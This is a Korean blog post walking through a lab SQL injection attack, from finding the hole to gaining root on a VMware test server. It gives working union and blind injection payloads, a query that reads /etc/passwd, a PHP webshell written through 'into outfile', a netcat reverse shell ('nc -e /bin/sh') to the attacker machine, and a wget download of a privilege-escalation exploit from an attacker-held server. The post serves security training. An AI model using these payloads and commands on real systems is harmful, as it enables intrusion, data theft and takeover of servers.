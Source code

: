 ```yaml
---
title: "SQL 인젝션 공격 실습(SQL Injection Attack)"
categories:
  - Web
tags:
  - Web hacking
  - SQL Injection
  - netcat
  - webshell
comments: true
---
```


SQL Injection 공격 취약점을 이용하여 서버의 root 권한을 획득하는 방법에 대해 기술한다.

> 1. 실습 환경설정
> 2. SQL Injection 취약점 확인 (Blind SQL Injection, Union SQL Injection 이용)
> 3. MYSQL 권한으로, webshell 생성하기
> 4. nc 를 통한 reverse connection
> 5. exploit code 업로드 및 실행을 통한 권한상승


# 1. 실습 환경설정

VMware [Edit]-[Virtual Network Editor]-[VMnet8] 에서 다음과 같이 설정한다.
- Subnet IP : 10.10.10.0
- DHCP Settings - starting ip address : 10.10.10.5
- DHCP Settings - starting ip address : 10.10.10.254

<center><p><img src="/assets/2019-01-28-post-web_sql/1.1.jpg"></p></center>

VMware NAT 방식에서 공격대상과 공격자 IP는 다음과 같다.
- 공격대상 서버의 IP : 10.10.10.10
- 공격자 PC 의 IP : 10.10.10.1
- 공격대상 서버 URL : 10.10.10.10/test/<br>
<center><p><img src="/assets/2019-01-28-post-web_sql/1.2.png"></p></center>
- 서비스 계정(id : test, pw : test)<br>
<center><p><img src="/assets/2019-01-28-post-web_sql/1.3.png"></p></center>

<br>

# 2. SQL Injection 취약점 확인 (Blind SQL Injection, Union SQL Injection 이용)

로그인 이후, FREE BOARD, **USER BOARD(취약점 존재)**, Q&A BOARD, SERVICE BOARD 등 게시판에서 취약점이 있는지 여부를 확인한다.

<center><p><img src="/assets/2019-01-28-post-web_sql/2.png"></p></center>

> 2.1. Blind SQL Injection

```
10.10.10.10/test/board.php?no=1 and 1=1 (TRUE)
10.10.10.10/test/board.php?no=1 and 1=0 (FALSE)
```
위 둘의 URL 실행결과가 다른 것을 통해 SQL Injection 공격 취약점이 존재하는 것을 파악할 수 있다.
```
[10.10.10.10/test/board.php?no=1 and 1=1 결과화면]
```

<center><p><img src="/assets/2019-01-28-post-web_sql/2.1.1.png"></p></center>

```
[10.10.10.10/test/board.php?no=1 and 1=0 결과화면]
```

<center><p><img src="/assets/2019-01-28-post-web_sql/2.1.2.png"></p></center>

> 2.2. Union SQL Injection

2.2.1. 컬럼개수 파악하기

```
http://10.10.10.10/test/board.php?no=0 order by 1 --
http://10.10.10.10/test/board.php?no=0 order by 2 --
~
http://10.10.10.10/test/board.php?no=0 order by 8 -- 까지는 에러가 발생하지 않는다..
http://10.10.10.10/test/board.php?no=0 order by 9 -- 부터 에러가 발생한다.
```
**그러므로, 컬럼은 총 8개이다.**

<center><p><img src="/assets/2019-01-28-post-web_sql/2.2.1.png"></p></center>

2.2.2. 각각의 컬럼 위치 확인하기

```
http://10.10.10.10/test/board.php?no=0 union select 1,2,3,4,5,6,7,8 --
```

<center><p><img src="/assets/2019-01-28-post-web_sql/2.2.2.png"></p></center>

2.2.3. Title 부분에 계정정보 출력하기

```
http://10.10.10.10/test/board.php?no=0 union select 1, load_file('/etc/passwd'),3,4,5,6,7,8 --
```

<center><p><img src="/assets/2019-01-28-post-web_sql/2.2.3.png"></p></center>


# 3. MYSQL 권한으로, webshell 생성하기

> 3.1. MYSQL 권한으로 Webshell 생성

```
http://10.10.10.10/test/board.php?no=0 union select 1,"<?php system($_GET['cmd']); ?>",3,4,5,6,7,8 into outfile "/usr/local/apache/htdocs/test/shell.php" --
```

<center><p><img src="/assets/2019-01-28-post-web_sql/3.1.png"></p></center>

> 3.2. Webshell 동작 확인

```
http://10.10.10.10/test/shell.php?cmd=ls
```
<center><p><img src="/assets/2019-01-28-post-web_sql/3.2.1.png"></p></center>

```
http://10.10.10.10/test/shell.php?cmd=ls  (nobody 권한인 것을 확인할 수 있다.)
```

<center><p><img src="/assets/2019-01-28-post-web_sql/3.2.2.png"></p></center>


# 4. nc 를 통한 reverse connection

> 4.1. 공격자 PC 에서 nc 실행 후, 응답대기

cmd 창 2개 생성
- `cmd_1` : nc -l -p 33333<br>
nc 프로그램이 33333 번 포트로 응답대기(33333번 포트는 임의로 설정)
- `cmd_2` : netstat -na<br>
33333 포트가 응답대기인지 확인(프로그램이 제대로 실행되었는지 확인)

<center><p><img src="/assets/2019-01-28-post-web_sql/4.1.1.png"></p></center>
<center><p><img src="/assets/2019-01-28-post-web_sql/4.1.2.png"></p></center>


> 4.2. Web 에서 nc 실행하여, 공격 대상 서버 -> 공격자 PC 로 연결 (reverse connection)

```
10.10.10.10/test/shell.php?cmd=nc -e /bin/sh 10.10.10.1 33333
(10.10.10.1 은 공격자 PC ip 주소)
```

다음과 같이 탭에서 계속 돌고 있는 상황이면 정상적으로 실행이 된 것이다.

<center><p><img src="/assets/2019-01-28-post-web_sql/4.2.png"></p></center>

> 4.3. 연결확인

`cmd_1` : id (계정정보 확인)

<center><p><img src="/assets/2019-01-28-post-web_sql/4.3.png"></p></center>


# 5. exploit code 업로드 및 실행을 통한 권한상승

> 5.1. wget 을 통한 익스플로잇 코드 업로드

공격자 소유의 서버(10.10.10.20)에 있는 exploit code 를, 공격대상이 되는 서버에서 다운로드 하도록 한다. 

```
10.10.10.10/test/shell.php?cmd=wget http://10.10.10.20/exp.c
```

<center><p><img src="/assets/2019-01-28-post-web_sql/5.1.png"></p></center>


> 5.2. Webshell 에서 exp.c 다운로드 확인

```
10.10.10.10/test/shell.php?cmd=ls -al
```

<center><p><img src="/assets/2019-01-28-post-web_sql/5.2.png"></p></center>

> 5.3. NC 를 통해 (cmd_1)에서 확인

<center><p><img src="/assets/2019-01-28-post-web_sql/5.3.png"></p></center>

> 5.4. exploit code 컴파일 후 실행을 통한 권한상승

5.4.1. `gcc -o exp exp.c`

<center><p><img src="/assets/2019-01-28-post-web_sql/5.4.1.png"></p></center>

5.4.2. `ls -al`

<center><p><img src="/assets/2019-01-28-post-web_sql/5.4.2.png"></p></center>

5.4.3. `./exp  ,  id`

<center><p><img src="/assets/2019-01-28-post-web_sql/5.4.3.png"></p></center>

<br>

{% if page.comments %}

<div id="disqus_thread"></div>
<script>

/**
*  RECOMMENDED CONFIGURATION VARIABLES: EDIT AND UNCOMMENT THE SECTION BELOW TO INSERT DYNAMIC VALUES FROM YOUR PLATFORM OR CMS.
*  LEARN WHY DEFINING THESE VARIABLES IS IMPORTANT: https://disqus.com/admin/universalcode/#configuration-variables*/
/*
var disqus_config = function () {
this.page.url = PAGE_URL;  // Replace PAGE_URL with your page's canonical URL variable
this.page.identifier = PAGE_IDENTIFIER; // Replace PAGE_IDENTIFIER with your page's unique identifier variable
};
*/
(function() { // DON'T EDIT BELOW THIS LINE
var d = document, s = d.createElement('script');
s.src = 'https://https-c0msherl0ck-github-io.disqus.com/embed.js';
s.setAttribute('data-timestamp', +new Date());
(d.head || d.body).appendChild(s);
})();
</script>
<noscript>Please enable JavaScript to view the <a href="https://disqus.com/?ref_noscript">comments powered by Disqus.</a></noscript>
                            
{% endif %}
